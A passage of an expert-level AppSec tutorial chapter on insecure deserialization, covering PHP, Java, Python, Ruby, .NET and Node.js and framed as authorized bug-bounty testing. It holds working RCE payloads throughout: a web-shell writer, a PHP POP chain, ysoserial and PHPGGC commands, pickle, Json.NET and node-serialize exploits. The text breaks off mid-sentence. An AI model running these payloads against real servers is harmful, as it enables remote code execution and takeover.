





**Level:** Expert · **Track:** Bug Bounty & AppSec · **Read time:** 255 min

This is Chapter 4 of the Server-Side notebook — Notebook 26. The three previous chapters shared a
single theme: an attacker steering a server-side operation with tainted input. SSRF steered *which URL
the server fetches*; file upload steered *what the server stores and runs*; path traversal and LFI
steered *which file the server reads and includes*. This chapter targets a quieter, deeper operation
that almost every application performs without a second thought — **turning bytes back into a live
object** — and shows why handing that operation attacker-controlled bytes is one of the most reliable
routes to remote code execution in the entire OWASP catalogue.

Insecure deserialization rarely looks dangerous at first glance. There is no obvious "eval", no SQL
string, no shell metacharacter. There is just a base64 cookie, a `ViewState` field, a cache entry, or
a message on a queue that the framework quietly rehydrates into objects on every request. The danger
is structural: the deserializer is a tiny virtual machine that follows instructions embedded in the
byte stream — *create an object of this class, set these fields, call this method* — and if an attacker
can write those instructions, they are programming your server. When the right classes ("gadgets")
already sit on the application's classpath, chaining them together produces a **POP chain** (Property-
Oriented Programming chain) that ends in `Runtime.exec`, `system()`, `eval`, or an arbitrary file write
— without the attacker uploading a single line of their own code.

This chapter builds the concept from absolute zero — what serialization even is and why it exists —
then goes language by language through the concrete exploitation primitives that make deserialization
the flaw it is: PHP object injection and manual POP-chain construction, Java's `ObjectInputStream` and
the `ysoserial` gadget arsenal, Python `pickle`, Ruby `Marshal`, .NET `BinaryFormatter`, and the
JavaScript variants. You'll learn to *recognise* serialized data on the wire, to detect the bug blindly
when you get no output, to build a working gadget chain by hand in a lab, and finally to shut the whole
class down with allow-list deserialization and safe data formats. Throughout, the boundary is firm:
these techniques are for authorized testing only — a deserialization RCE is a critical finding, and the
professional move is a non-destructive proof (a DNS callback, a benign `id`), not a destructive
payload on someone else's server.

## Part 1: What Serialization Is and Why It Exists

Before you can attack deserialization you have to understand the ordinary, boring thing it corrupts.
Objects live in a program's memory as a graph: a `User` object holds a reference to an `Address`
object, which holds a list of `PhoneNumber` objects, and so on. That graph is made of pointers into RAM
— it is meaningless the moment the process ends or the moment you try to send it over a network. To
persist an object to disk, store it in a cache, put it on a message queue, or ship it between two
services, you need to flatten that in-memory graph into a **linear sequence of bytes** that can later
be reconstructed. That flattening is **serialization** (also called marshalling, pickling, or
"dehydration"); the reverse — bytes back into a live object graph — is **deserialization**
(unmarshalling, unpickling, "hydration").



The key insight — the one the whole chapter hangs on — is that a serialized blob is not merely *data*.
It is a **description of how to rebuild an object**, and rebuilding an object is an active process. The
deserializer reads class names, instantiates objects of those classes, sets their fields to values from
the stream, and — crucially — often invokes **lifecycle methods** the class defines (`__wakeup`,
`readObject`, `__reduce__`, `readResolve`, `ObjectDataProvider`) as part of reconstruction. Those
methods contain real code. If an attacker controls the byte stream, they control *which classes get
instantiated* and *which fields those objects hold* when their lifecycle methods run. That is the
entire vulnerability in one sentence: **deserializing untrusted data lets an attacker instantiate
arbitrary available classes with arbitrary field values and trigger their magic methods.**

There are two broad families of serialization format, and the distinction matters enormously for
exploitability:

- **Data-only formats** — JSON, plain XML, YAML (in safe mode), Protocol Buffers, MessagePack. These
  encode *values*: strings, numbers, booleans, arrays, maps. A decoder reading JSON produces a generic
  map/dictionary; it does not, by itself, decide to instantiate your `EvilClass`. These are far safer,
  though not automatically safe (JSON parsers with polymorphic type handling, and YAML's `!!python`
  tags, reopen the door — see Parts 8 and 9).
- **Object/native formats** — PHP `serialize()`, Java `ObjectOutputStream`, Python `pickle`, Ruby
  `Marshal`, .NET `BinaryFormatter`. These encode *typed objects*: the stream literally says "an object
  of class `Foo` with these private fields." A decoder reading these **must** instantiate the named
  class to rebuild the object. This is where insecure deserialization gets its teeth.

**Security relevance:** the single most reliable predictor of an exploitable deserialization bug is the
format. If you see a native object format (PHP `O:`, Java `\xac\xed`, Python pickle opcodes, .NET
`AAEAAAD/////`) carrying attacker-controlled bytes into a deserializer, you are one gadget away from
code execution. If you see JSON, you have to work harder and look for polymorphic type handling. Part 3
teaches you to fingerprint each format on sight.

## Part 2: The Vulnerability Model — Magic Methods and Gadgets

To exploit deserialization you rarely find a class that says "if deserialized, run this shell command."
Instead you assemble an attack out of *legitimate* code that already ships with the application or its
libraries. The building blocks are called **gadgets**, and the assembled attack is a **gadget chain**
or **POP chain** (Property-Oriented Programming chain). The name comes from the fact that you are
programming the target not with your own instructions but by controlling **object properties** so that
the target's own methods, invoked automatically during and after deserialization, do what you want.

The mechanism depends on **magic / lifecycle methods** — methods a runtime calls automatically at
well-defined moments. The most abused ones, by language:

| Language | Auto-invoked during/after deserialization | Also commonly abused |
| --- | --- | --- |
| PHP | `__wakeup()`, `__unserialize()` | `__destruct()`, `__toString()`, `__call()`, `__get()` |
| Java | `readObject()`, `readResolve()`, `readExternal()` | `finalize()`, `hashCode()`/`equals()` (via HashMap), `toString()` |
| Python | `__reduce__()` / `__reduce_ex__()` (drives unpickling) | `__setstate__()`, `__setattr__()` |
| Ruby | `_load` / `marshal_load` | method_missing, `to_s` |
| .NET | `OnDeserialized`, `ISerializable` ctor | `ObjectDataProvider`, type converters |

A gadget chain works like a Rube Goldberg machine. Deserialization triggers a **kick-off gadget** (a
magic method that runs automatically, e.g. PHP `__destruct` or Java `readObject`). That method, doing
something innocent-looking like calling `$this->handler->close()` or iterating a map, invokes a method
on another object *whose class the attacker also chose*. That second call reaches a **link gadget**,
and so on down the chain, until a final **sink gadget** performs the dangerous action —
`Runtime.exec()`, `call_user_func()`, `eval()`, `file_put_contents()`, a reflective method invocation.
The attacker never writes any of these methods; they exist in the framework/library code. The attacker
only crafts the *object graph* so that following the normal method calls walks from kick-off to sink.



Two consequences fall out of this model and shape everything an attacker does:

1. **You need gadgets on the target's classpath.** A chain that ends in `Runtime.exec` only works if
   the vulnerable app ships a library (Apache Commons Collections, Spring, Groovy, etc.) whose classes
   can be strung together into a chain. This is why tools like `ysoserial` are organized by *library*:
   `CommonsCollections1`, `Spring1`, `Groovy1`. The presence of a dependency, not the app's own code,
   often decides exploitability.
2. **The impact ranges from RCE to object injection.** Even without a full RCE chain, being able to
   instantiate arbitrary classes and set their fields is powerful: you might reach an SSRF via a URL
   gadget, an arbitrary file write, an authentication bypass (set `isAdmin=true` on a rehydrated user),
   a denial of service (a billion-laughs-style nested object), or a SQL injection through a controlled
   ORM object. Never dismiss a deserialization bug just because you don't immediately have an RCE
   gadget.

**Bug bounty framing:** on real programs the highest-value deserialization findings are RCE (P1/
critical), but object-injection primitives that lead to auth bypass or arbitrary file read/write are
routinely triaged as high. The two PortSwigger deserialization labs that most people learn on — a PHP
one that modifies a serialized cookie to escalate privileges, and one that builds a full POP chain —
map exactly onto these two impact tiers.

## Part 3: Recognising Serialized Data on the Wire

You cannot exploit what you cannot find. The practical skill that separates people who find
deserialization bugs from people who read about them is **fingerprinting serialized blobs** in traffic.
Serialized data hides in cookies, hidden form fields, `Authorization`-like headers, JSON string values,
URL parameters, WebSocket frames, cache keys, and message-queue payloads. It is very often base64- or
URL-encoded, sometimes gzip-compressed first. Learn the magic markers.

| Format | Raw signature | Base64 prefix | Notes |
| --- | --- | --- | --- |
| PHP `serialize()` | `O:8:"UserData":`, `a:2:{...}`, `s:5:"hello"` | `Tzo` (for `O:`), `YTo` (for `a:`), `czo` (`s:`) | Human-readable ASCII; type letters `O a s i b d N` |
| Java | bytes `AC ED 00 05` | `rO0` (or `rO0AB` for stream header) | `rO0` is the single most recognisable web-security marker |
| Python pickle | opcodes, ends with `.` (`STOP`); starts `\x80\x04` (proto 4), `\x80\x05` | `gAS`/`gAJ`/`gAR` etc. (`\x80` = `g`...) | Binary opcode soup; look for `c__main__` or module names |
| Ruby Marshal | `\x04\x08` version header | `BAg` | Compact binary |
| .NET BinaryFormatter | `00 01 00 00 00 FF FF FF FF` | `AAEAAAD/////` | `AAEAAAD/////` is the giveaway |
| .NET LosFormatter / ViewState | often `/wEP...` | `/wE` | ASP.NET `__VIEWSTATE` |
| Java (Jackson/JSON polymorphic) | JSON with `"@class"`, `"@type"`, `"$type"` | — | Type hints inside JSON are the red flag |

A few worked examples of decoding a suspicious value:

```bash
# You grabbed a cookie value from Burp; it looks like base64. Decode and inspect.
echo 'Tzo4OiJVc2VyRGF0YSI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiJndWVzdCI7czo1OiJhZG1pbiI7YjowO30=' \
  | base64 -d
# -> O:8:"UserData":2:{s:8:"username";s:5:"guest";s:5:"admin";b:0;}
#    Clearly a serialized PHP object of class UserData with an `admin` boolean.

# A token starting with rO0AB is Java serialized data, base64-encoded:
echo 'rO0ABXNyABNjb20uZXhhbXBsZS5NeUJlYW4...' | base64 -d | xxd | head
# -> 00000000: aced 0005 7372 0013 636f 6d2e 6578 616d  ....sr..com.exam
#    aced 0005 = Java stream magic; `sr` = TC_OBJECT; then the class name.

# A .NET value:
echo 'AAEAAAD/////AQAAAAAAAAAMAgAAA...' | base64 -d | xxd | head -1
# -> 0000: 0001 0000 00ff ffff ff01 ... classic BinaryFormatter header
```

**Practical tip:** when a base64 string decodes to something starting with `O:` (PHP) or the bytes
`AC ED` (Java) or `\x80` followed by opcodes (pickle), stop and take it seriously. Also watch for
**double encoding** (base64 of URL-encoded of the blob) and **compression** (`gzip`/`zlib` — a base64
string starting `H4sI` is gzip; `eJ` is zlib). Burp's Inspector and the `Hackvertor` extension will
chain-decode these for you. In Java specifically, the base64 prefix `rO0` is worth committing to memory:
seeing it anywhere in a request is a near-guaranteed sign that Java serialized data is crossing a trust
boundary.

## Part 4: PHP Object Injection From Scratch

PHP is the ideal teaching language for deserialization because its serialized format is human-readable,
so you can *see* your payload and edit it by hand. PHP serializes objects with `serialize()` and
rebuilds them with `unserialize()`. The format is a compact, self-describing string:

```php
<?php
class UserData {
    public  $username = "guest";
    public  $isAdmin  = false;
    private $token     = "abc";
    protected $role    = "user";
}
echo serialize(new UserData());
// O:8:"UserData":4:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;
//   s:15:"\x00UserData\x00token";s:3:"abc";s:7:"\x00*\x00role";s:4:"user";}
```

Decode the grammar once and you can edit any PHP blob fluently:

| Token | Meaning | Example |
| --- | --- | --- |
| `O:<len>:"<class>":<n>:{...}` | object of class, `n` properties | `O:8:"UserData":4:{...}` |
| `s:<len>:"<string>";` | string of byte length `len` | `s:5:"guest";` |
| `i:<int>;` | integer | `i:42;` |
| `b:<0\|1>;` | boolean | `b:1;` |
| `d:<float>;` | double | `d:3.14;` |
| `a:<n>:{...}` | array with `n` key/value pairs | `a:2:{i:0;s:1:"x";i:1;s:1:"y";}` |
| `N;` | null | `N;` |
| private property | key is `\x00ClassName\x00prop` | `s:15:"\x00UserData\x00token"` |
| protected property | key is `\x00*\x00prop` | `s:7:"\x00*\x00role"` |

Two subtleties trip up beginners and are worth burning in now:

- **`len` is the byte length**, not character count. If you change a string's contents you must fix its
  length prefix, or `unserialize()` silently returns `false` and your attack dies. Multibyte characters
  and NUL bytes count individually.
- **Private/protected property keys contain NUL (`\x00`) bytes.** A private `$token` on class
  `UserData` is stored under the key `\x00UserData\x00token` — that is `NUL U s e r D a t a NUL t o k e
  n`, 15 bytes. When you craft payloads by hand you must include those NUL bytes and count them in the
  length. This is the single most common reason a hand-written PHP gadget "doesn't work."

### The simplest bug: tampering with trusted serialized state

The lowest-effort PHP deserialization bug needs no gadget chain at all. An application serializes an
object into a cookie, trusts it on the way back, and never checks integrity:

```php
// Vulnerable pattern
$user = unserialize(base64_decode($_COOKIE['session']));
if ($user->isAdmin) { /* grant admin */ }
```

You decode the cookie, flip `isAdmin` from `b:0` to `b:1`, re-encode, and you are admin. This is
exactly PortSwigger's "Modifying serialized objects" lab. The fix conceptually is *don't trust
serialized state without a signature* — but the deeper fix is *don't deserialize native objects from
the client at all* (Part 12).

### Object injection via magic methods

The real power comes from PHP's magic methods. During and after `unserialize()`, PHP calls:

- **`__wakeup()`** immediately after reconstructing an object — intended to re-establish resources
  (reopen a DB connection, etc.).
- **`__destruct()`** when the object is garbage-collected at script end — intended for cleanup (close
  file handles, flush buffers).
- **`__toString()`** when an object is used in string context — intended for display.

If any class reachable to the attacker defines one of these with a dangerous side effect, controlling
its properties turns deserialization into code execution. The canonical teaching example:

```php
<?php
class Logger {
    public $logfile = "/var/log/app.log";
    public $data    = "";
    // Intended: append a log line on cleanup.
    public function __destruct() {
        file_put_contents($this->logfile, $this->data, FILE_APPEND);
    }
}
// Somewhere the app does:  $x = unserialize($_POST['state']);
```

`Logger::__destruct` calls `file_put_contents` with attacker-controlled `logfile` and `data`. An
attacker serializes a `Logger` whose `logfile` is `/var/www/html/shell.php` and whose `data` is
`<?php system($_GET['c']); ?>`. When the script ends, `__destruct` writes a web shell:

```php
// Attacker builds the payload (they need, or reconstruct, the class definition):
$p = new Logger();
$p->logfile = "/var/www/html/shell.php";
$p->data    = '<?php system($_GET["c"]); ?>';
echo base64_encode(serialize($p));
// Send as state=...; then visit /shell.php?c=id
```

This is **PHP object injection**: an attacker-chosen class is instantiated and its magic method runs
with attacker-chosen properties, reaching a dangerous sink. When no single class gets you all the way,
you chain them — the subject of Part 5.

## Part 5: Building a PHP POP Chain by Hand

Real applications rarely hand you a `Logger` with a `file_put_contents` in its destructor. Instead you
build a **POP chain**: a graph of legitimate objects where one magic method call cascades into the next
until a sink is reached. Here is a deliberately minimal but *realistic* three-gadget chain you can run
locally to internalise the mechanics.

```php
<?php
// ---- Gadget classes (imagine these live in the app + its libraries) ----

// SINK gadget: has a method that runs a command.
class CommandRunner {
    public $cmd;
    public function run() { system($this->cmd); }   // dangerous sink
}

// LINK gadget: its __toString calls a method on another object.
class TemplateRenderer {
    public $engine;      // attacker points this at a CommandRunner
    public $method;      // attacker sets this to "run"
    public function __toString() {
        return (string) call_user_func([$this->engine, $this->method]);
    }
}

// KICK-OFF gadget: __destruct forces the link object into string context.
class Cleanup {
    public $message;     // attacker points this at a TemplateRenderer
    public function __destruct() {
        // Innocuous-looking: log a message. But string-casting triggers __toString.
        error_log("Cleaning up: " . $this->message);
    }
}
```

The kick-off is `Cleanup::__destruct`, which concatenates `$this->message` into a string — forcing
`TemplateRenderer::__toString` to run if `message` is a `TemplateRenderer`. That `__toString` calls
`call_user_func([$engine, $method])`; if `engine` is a `CommandRunner` and `method` is `"run"`, it
invokes `CommandRunner::run()`, which calls `system($cmd)`. Following object properties from kick-off to
sink is the whole art. Build the payload by wiring the objects together and serialising the *outermost*
one:

```php
<?php
$sink = new CommandRunner();
$sink->cmd = "id; uname -a";

$link = new TemplateRenderer();
$link->engine = $sink;
$link->method = "run";

$kick = new Cleanup();
$kick->message = $link;

echo base64_encode(serialize($kick)), "\n";
// Paste this into the vulnerable unserialize() sink; on GC the chain fires.
```

```mermaid
flowchart LR
    A["Cleanup<br/>__destruct()"] -->|string cast of message| B["TemplateRenderer<br/>__toString()"]
    B -->|call_user_func engine,method| C["CommandRunner<br/>run()"]
    C -->|system(cmd)| D["RCE: id; uname -a"]
```

### Automating it: PHPGGC (PHP Generic Gadget Chains)

Finding gadget chains inside big frameworks by hand is slow. **PHPGGC** is the PHP equivalent of
`ysoserial`: a catalogue of ready-made POP chains for popular libraries (Laravel, Symfony, Monolog,
Guzzle, Doctrine, WordPress, Magento, Yii, Slim, and many more). It is the first tool you reach for once
you confirm PHP deserialization and know (or can guess) the frameworks in use.

**What it is / why it exists / install:** PHPGGC turns "which class chain reaches a sink in Monolog
1.x?" from a research project into a one-liner. Install on Kali:

```bash
git clone https://github.com/ambionics/phpggc.git
cd phpggc
./phpggc -l          # list every available gadget chain, grouped by library
```

Core workflow — list, inspect, generate:

```bash
# 1) List chains for a specific library (grep the catalogue):
./phpggc -l monolog
# Monolog/RCE1  __destruct  ...  Monolog < 1.x  (function call)
# Monolog/RCE2  ...

# 2) Show usage/parameters for one chain:
./phpggc -i Monolog/RCE1

# 3) Generate a payload that runs `id` via that chain:
./phpggc Monolog/RCE1 system id
# -> prints the raw serialized PHP object graph

# Useful flags:
#   -b        base64-encode the output (for cookies/params)
#   -u        URL-encode the output
#   -f        "fast destruct" variant to force __destruct earlier
#   -a        ASCII-safe output
#   -o file   write payload to a file instead of stdout
./phpggc -b -u Monolog/RCE1 system 'id'      # base64 + urlencoded, drop straight into a param
```

**Red team / bug bounty usage:** when you find a PHP `unserialize()` on user input and can fingerprint
the framework (Composer's `composer.lock`, error messages, `/vendor/` paths, cookie names), enumerate
matching PHPGGC chains and try them in order. A `Laravel/RCE*` or `Monolog/RCE*` chain firing against a
`Cookie` or POST body is a textbook critical. Always prove impact benignly first (`system id` or a DNS
callback), then stop — you have your finding.

## Part 6: Java Deserialization and ysoserial

Java deserialization is the heavyweight of this vulnerability class: it powered some of the most
impactful CVEs of the last decade (Apache Struts, WebLogic, JBoss, Jenkins, WebSphere) and is the reason
"insecure deserialization" earned a slot in the OWASP Top 10. Java serializes objects with
`ObjectOutputStream.writeObject()` and rebuilds them with `ObjectInputStream.readObject()`. Any class
that implements `java.io.Serializable` can be written and read; during `readObject()`, a class's own
private `readObject(ObjectInputStream)` method (if it defines one) runs automatically — the kick-off
point for Java gadget chains.

### Recognising and reaching the sink

Java serialized data always begins with the stream magic `AC ED 00 05` (`0xACED`, version `0x0005`),
which base64-encodes to a string starting `rO0AB`. It shows up in cookies, hidden fields, RMI/JMX
traffic, JMS/message queues, custom TCP protocols, `T3` (WebLogic), and HTTP bodies. A minimal
vulnerable pattern:

```java
// Anti-pattern: deserializing bytes straight off the wire.
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject();     // <-- attacker controls the bytes
```

The catch that makes Java exploitation interesting: the deserialized object does **not** need to be a
type the application expects. `readObject()` will happily reconstruct *any* `Serializable` class on the
classpath, running that class's `readObject`/`readResolve`/`finalize` and, through collections like
`HashMap`, its `hashCode()`/`equals()`. That is how gadget chains bootstrap from a generic
`readObject()` into library code the app never intended to run.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant S as Server (readObject)
    participant G as Gadget classes on classpath
    A->>S: POST serialized blob (rO0AB...)
    S->>S: ObjectInputStream.readObject()
    S->>G: reconstruct objects, run readObject/hashCode
    G->>G: CommonsCollections Transformer chain
    G->>G: InvokerTransformer -> Runtime.exec()
    G-->>A: (blind) command runs; OOB callback / output
```

### ysoserial — the Java gadget arsenal

**What it is / why it exists / install:** `ysoserial` is a collection of pre-built Java gadget chains
that produce a serialized payload which, when deserialized on a target with the matching library on its
classpath, executes a command. It abstracts away years of gadget research into `ysoserial <Chain>
'<command>'`. You run it on your own machine (Kali) to *generate* bytes, then deliver those bytes to the
target.

```bash
# Grab the prebuilt jar (or build with maven). Requires a Java runtime.
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar

java -jar ysoserial-all.jar            # prints the list of available payload chains
# Payload             Authors                Dependencies
# CommonsCollections1 @frohoff            commons-collections:3.1
# CommonsCollections5 ...                 commons-collections:3.1
# CommonsCollections6 ...                 commons-collections:3.1
# Groovy1             ...                 groovy:2.3.9
# Spring1             ...                 spring-core:4.1.4
# URLDNS              @gebl               (JRE only)  <- blind detection
```

Core workflow — pick a chain that matches the target's libraries, feed it a command:

```bash
# Generate a CommonsCollections6 payload that runs `id`, save raw bytes:
java -jar ysoserial-all.jar CommonsCollections6 'id' > cc6.bin

# For blind detection with NO dependency requirement, use URLDNS (JRE-only):
java -jar ysoserial-all.jar URLDNS "http://YOURID.oastify.com" > urldns.bin

# Deliver the bytes. If the sink is an HTTP body:
curl -s --data-binary @cc6.bin -H 'Content-Type: application/octet-stream' \
     https://target.example/api/deserialize

# If it's a base64 cookie:
base64 -w0 cc6.bin
# -> paste into the cookie value in Burp Repeater
```

Key chains you will actually reach for:

| Chain | Requires on classpath | Use |
| --- | --- | --- |
| `URLDNS` | Nothing (JRE only) | **Blind detection** — triggers a DNS lookup, no RCE, no deps. Always try first. |
| `CommonsCollections1/5/6` | Apache Commons Collections 3.1 | Classic RCE; CC6 avoids some CC1 constraints |
| `CommonsCollections2/4` | Commons Collections 4.0 | The 4.x line |
| `Groovy1` | Groovy 2.3.x | RCE where Groovy is present |
| `Spring1/2` | spring-core / spring-beans | Spring apps |
| `JRMPClient` / `JRMPListener` | JRE | Turn a deserialization into an outbound JRMP connection to your listener → second-stage gadget |
| `Jdk7u21` | JRE ≤ 7u21 | Pure-JRE RCE on old runtimes |

**Blind detection with URLDNS is the professional first move.** Because it needs no library on the
target and causes no code execution, it is safe and universal: if the target deserializes your
`URLDNS` payload, you get a DNS hit at your Collaborator/`interactsh` domain, *confirming* the bug
without touching RCE. Only then do you fingerprint dependencies and try RCE chains. This mirrors the
non-destructive-proof ethic that governs the whole chapter.

## Part 7: Python pickle and Ruby Marshal

### Python: pickle is arbitrary code execution by design

Python's `pickle` module is notorious, and the Python docs say so outright: *"The pickle module is not
secure. Only unpickle data you trust."* The reason is `__reduce__`. When Python pickles an object, it
asks the object (via `__reduce__`/`__reduce_ex__`) how to rebuild itself; the method returns a
*callable* and its *arguments*, and on unpickle, Python calls that callable with those arguments. An
attacker who crafts a pickle can make the callable be `os.system` and the argument be any command:

```python
import pickle, os, base64

class RCE:
    def __reduce__(self):
        # (callable, args_tuple) -> on load, callable(*args) is invoked.
        return (os.system, ("id; uname -a",))

payload = base64.b64encode(pickle.dumps(RCE()))
print(payload.decode())
# On the vulnerable side:  pickle.loads(base64.b64decode(payload))  -> runs `id`
```

The raw pickle for such a payload is short and recognisable — you can even hand-write it with opcodes:

```python
# Hand-crafted pickle using the low-level opcodes (proto 0, human-ish):
payload = b"cos\nsystem\n(S'id'\ntR."
#   c os \n system \n  -> GLOBAL: push os.system
#   ( S'id' \n t        -> build the args tuple ('id',)
#   R                   -> REDUCE: call os.system('id')
#   .                   -> STOP
pickle.loads(payload)      # executes id
```

**Where pickle bites in the real world:** anywhere Python moves objects around — `pickle`-based caches,
Celery/RQ task queues configured with the pickle serializer, ML model files (`joblib`/`torch.load`
historically used pickle under the hood — loading an untrusted `.pt`/`.pkl` model is RCE), Django
sessions with the pickle serializer, and Redis/Memcached-backed session stores. A base64 blob that
decodes to bytes starting `\x80\x04` or `\x80\x05` (or the ASCII `c...\n...\n(...tR.` shape) is a pickle;
treat it as a live grenade.

**PyYAML deserves the same caution:** `yaml.load(data)` without a `SafeLoader` will process
`!!python/object/apply:os.system ['id']` tags and execute them. Always `yaml.safe_load`. Many "YAML
config injection" RCEs are really pickle-class problems wearing a YAML costume.

### Ruby: Marshal and the universal gadget

Ruby's `Marshal.load` reconstructs arbitrary objects and, like the others, invokes lifecycle hooks
(`_load`, `marshal_load`, and — via method dispatch on rehydrated objects — chains through Ruby's
metaprogramming). For years Ruby exploitation needed app-specific gadgets, but researchers published
**universal gadget chains** that work against a stock Ruby/Rails install (e.g. the well-known chains
targeting `Gem::Requirement`/`Gem::DependencyList` and later pure-Ruby chains). A serialized Ruby blob
starts with the version bytes `\x04\x08` (base64 `BAg`). Rails cookies, `Marshal`-backed caches, and
`Oj`/`Ox` with object mode are the usual entry points. The universal chains are catalogued in tooling
such as the `GadgetChains` collections and Metasploit modules; the exploitation shape is identical to
PHP/Java — controlled object graph, magic method kick-off, sink.



## Part 8: .NET Deserialization

The .NET ecosystem has a rich set of serializers and a matching set of dangerous ones. The infamous
sink is **`BinaryFormatter`** (and its cousins `SoapFormatter`, `NetDataContractSerializer`,
`LosFormatter` — the last one underlies ASP.NET `__VIEWSTATE`). Microsoft now marks `BinaryFormatter`
obsolete and dangerous precisely because deserializing untrusted data with it is RCE-by-design, much
like Java's `ObjectInputStream`.

A raw `BinaryFormatter` blob begins `00 01 00 00 00 FF FF FF FF` and base64-encodes to a string starting
`AAEAAAD/////`. The JSON serializer **Json.NET (Newtonsoft)** is safe by default but becomes exploitable
when `TypeNameHandling` is set to anything other than `None` — that setting tells Json.NET to honour a
`"$type"` field in the JSON and instantiate whatever type it names, reopening the object-injection door
inside "just JSON":

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "MethodName": "Start",
  "ObjectInstance": {
    "$type": "System.Diagnostics.Process, System",
    "StartInfo": {
      "$type": "System.Diagnostics.ProcessStartInfo, System",
      "FileName": "cmd", "Arguments": "/c calc"
    }
  }
}
```

**ysoserial.net** is the .NET counterpart to `ysoserial`, generating payloads for `BinaryFormatter`,
`LosFormatter`/ViewState, `Json.NET`, `DataContractSerializer`, and more, using gadgets like
`ObjectDataProvider`, `TypeConfuseDelegate`, and `WindowsIdentity`:

```bash
# On Windows (or via mono/wine). Generate a BinaryFormatter payload running calc:
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c "calc.exe"

# Generate a ViewState payload when you have the machineKey (validation/decryption keys):
ysoserial.exe -p ViewState -g ObjectDataProvider -c "cmd /c ping YOURID.oastify.com" \
  --generator=CA0B0334 \
  --validationkey=<hex> --validationalg=SHA1 \
  --decryptionkey=<hex> --decryptionalg=AES

# Json.NET payload:
ysoserial.exe -f Json.Net -g ObjectDataProvider -c "cmd /c calc"
```

**ASP.NET ViewState** is the highest-value .NET target on the web: if you can recover the `machineKey`
(leaked `web.config`, a known/default key, or a padding-oracle) you can forge a signed `__VIEWSTATE`
that `LosFormatter` deserializes into RCE. This is the mechanism behind a long line of critical .NET
CVEs (e.g. the Exchange/SharePoint ViewState RCEs). The presence of a `__VIEWSTATE` field with
`__VIEWSTATEGENERATOR` and no MAC (or a leaked key) should immediately prompt a ViewState deserialization
test.

## Part 9: JavaScript / Node.js Deserialization

JavaScript objects are usually moved as JSON, which is data-only and safe. Deserialization RCE enters
Node.js through two doors:

1. **Unsafe object-deserialization libraries.** The `node-serialize` package (and similar) supports
   serializing functions and, on deserialize, will evaluate an *immediately-invoked function
   expression* (IIFE) marker. A payload like the following runs on `unserialize()`:

```javascript
// Vulnerable: node-serialize evaluates function bodies, and the "_$$ND_FUNC$$_"
// marker plus an IIFE () at the end triggers execution on unserialize().
const serialize = require('node-serialize');
const payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\')' +
                '.execSync(\'id > /tmp/pwned\');}()"}';
serialize.unserialize(payload);   // executes id
```

2. **Prototype pollution as a deserialization-adjacent primitive.** Merging attacker-controlled JSON
